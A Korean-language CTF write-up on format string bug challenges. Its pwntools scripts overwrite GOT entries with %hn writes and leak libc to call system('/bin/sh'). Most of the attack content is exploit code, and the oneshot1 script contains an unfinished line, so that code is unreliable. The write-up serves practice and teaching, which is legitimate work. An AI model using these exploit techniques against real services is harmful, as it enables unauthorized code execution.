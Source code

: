 # fsb

## oneshot0

주어진 gift 함수를 실행하면 된다. PIE가 없고 partial RELRO이므로 fsb를 활용하여 exit 함수의 got를 gift함수의 주소로 덮어쓸 수 있다. gift 함수의 주소값이 크기 때문에 출력하는 것에 시간이 오래 걸리므로 %hn을 이용하여 2bytes씩 2회에 걸쳐 나누어서 입력할 수 있다. gift의 주소를 2부분으로 나눈 뒤 각각 exit+2와 exit에 입력할 수 있다. payload의 길이는 8의 배수여야 하므로 0x20으로 설정하면 offset은 6이지만 payload 길이로 인해 실제 입력하는 offset은 10과 11이 된다. payload를 보내면 exit_got를 gift로 변조할 수 있다.

```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot")
p = process(e.path)


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["gift"] >> 16}c'.encode() #gift_high
payload += b"%10$hn"
payload += f"%{(e.symbols['gift'] & 0xffff) - (e.symbols['gift'] >> 16)}c".encode() #gift_low - gift_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])
p.send(payload)

p.interactive()


```


## oneshot1

앞 문제와 다르게 system 함수만 주어져 있고 "/bin/sh"는 주어져 있지 않다. printf 함수의 got를 system 함수의 주소로 덮어쓰고 buf에 입력을 받을 때 "/bin/sh"를 입력하면 system("/bin/sh")를 실행할 수 있다. 이때 2번 이상 입력을 받아야 하므로 exit의 got를 main으로 덮어야 단계를 실행할 수 있을 것으로 보인다.  
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

# context.log_level = 'debug'

e = ELF("./oneshot1")
p = process(e.path)
libc = e.libc


p.recvuntil(b"\n\n")
payload = f'%{e.symbols["main"] >> 16}c'.encode() #main_high
payload += b"%10$hn"
payload += f"%{(e.symbols['main'] & 0xffff) - (e.symbols['main'] >> 16)}c".encode() #main_low - main_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

p.send(payload)

system_got = 

p.recvuntil(b"\n\n")
payload = f'%{e.symbols["system"] >> 16}c'.encode() #system_high
payload += b"%10$hn"
payload += f"%{(e.symbols['system'] & 0xffff) - (e.symbols['system'] >> 16)}c".encode() #system_low - system_high
payload += b"%11$hn"
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["printf"] + 2)
payload += p64(e.got["printf"])
p.send(payload)


p.send(b'/bin/sh\x00')


p.interactive()


```



## oneshot2

system 함수와 "/bin/sh"가 주어져 있지 않으므로 libc_leak을 통해 구해서 풀어야 하는 문제로 보인다.
payload 단계를 구성하면 다음과 같다.
1. exit_got을 main으로 덮는다.
2. libc_leak을 진행하여 system 함수의 주소를 구한다.
3. printf_got을 system으로 덮는다.
4. "/bin/sh"을 전송한다.


```python

from pwn import *

e = ELF('./oneshot2')
p = process(e.path)
libc = e.libc


main = e.symbols['main']
printf_got = e.got['printf']


main_low = main & 0xffff
main_high = (main >> 16) & 0xffff


p.recvuntil(b"\n\n")
payload = f'%{main_high}c'.encode()
payload += b'%10$hn'
payload += f'%{main_low - main_high}c'.encode()
payload += b'%11$hn'
payload = payload.ljust(0x20, b"\x00")
payload += p64(e.got["exit"] + 2)
payload += p64(e.got["exit"])

#pause()
p.send(payload)


p.recvuntil(b"\n\n")
payload = ''
payload += 'leak:%77$p'

#pause()
p.sendline(payload)

p.recvuntil('leak:')
leak = int(p.recv(14),16) 
log.info('\tleak : '+ hex(leak))

libc_base = leak - libc.symbols['__libc_start_main'] - 231
system = libc_base + libc.symbols['system']

log.info('\tlibc base '+ hex(libc_base))
log.info('\tprintf@got '+hex(printf_got))
log.info('\tsystem '+hex(system))


system_low = system & 0xffff
system_middle = (system >> 16) & 0xffff
system_high = (system >> 32) & 0xffff

low = system_low

if system_middle > system_low:
    middle = system_middle - system_low
else:
    middle = 0x10000 + system_middle - system_low

if system_high > system_middle:
    high = system_high - system_middle
else:
    high = 0x10000 + system_high - system_middle


log.info('### main ###')
log.info('[3] input : printf@got -> system')


p.recvuntil(b"\n\n")
payload = f'%{low}c'.encode()
payload += b'%11$hn'
payload += f'%{middle}c'.encode()
payload += b'%12$hn'
payload += f'%{high}c'.encode()
payload += b'%13$hn'
payload += b'\x00'*(8 - len(payload) % 8)
payload += p64(printf_got)
payload += p64(printf_got + 2)
payload += p64(printf_got + 4)


pause()
p.send(payload)

log.info('### main ###')
log.info('[4] input : /bin/sh\x00')
p.send(b'/bin/sh\x00')

p.interactive()


```




## oneshot3

exit 함수가 존재하지 않으므로 다른 방식의 fsb를 해야 한다.





## oneshot4

전역변수 buf에 입력을 받는 상황이기 때문에 double-staged fsb를 해야 한다.
